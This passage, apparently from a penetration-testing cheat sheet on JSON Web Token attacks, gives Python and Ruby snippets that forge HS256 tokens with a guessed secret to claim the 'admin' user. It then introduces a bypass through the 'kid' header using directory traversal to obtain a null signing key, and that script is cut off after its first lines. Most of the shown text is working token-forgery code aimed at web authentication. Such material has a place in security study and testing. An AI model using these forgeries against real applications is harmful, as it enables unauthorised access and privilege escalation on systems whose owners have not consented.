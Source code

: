       ```python
      import hmac
      import hashlib
      import base64

      jwt = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjpudWxsfQ.Tr0VvdP6rVBGBGuI_luxGCOaz6BbhC6IxRTlKOW8UjM"

      h, p, s = jwt.split(".")

      def sign(str, key):
          return base64.urlsafe_b64encode(hmac.new(key, str, hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

      key = "something"
      payload = "eyJ1c2VyIjoiYWRtaW4ifQo"
      print(h + "." + payload + "." + sign(h + "." + payload, key))
      ```
    
    - Using ruby interactive (with hashcat):
  
      ```bash
      $ gem install jwt 
      $ irb

      require 'jwt'

      payload = {"user":"admin"}

      JWT.encode payload, "SECRET", "HS256"
      ```

## JWT bypass kid (key id)
[KID](https://tools.ietf.org/html/rfc7517) (key id) is used to retrieve a **key** from the **filesystem** or a **database**. If the parameter is injectable, we can manipulate the header and payload and bypass the signature. Step-by-step:

- Sign with directory transversal (null secret) on python:

    ```python
    import hmac
    import hashlib
    import base64
    import json

    # eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6IjAwMDEifQ.eyJ1c2VyIjpudWxsfQ.spzCikhspCdf6XAUci3R4EpJOH6gvZcvkDCVrkGbx7Y
    # base64 decoded:
    # header = {"typ":"JWT","alg":"HS256","kid":"0001"}
    # payload = {"user":null}

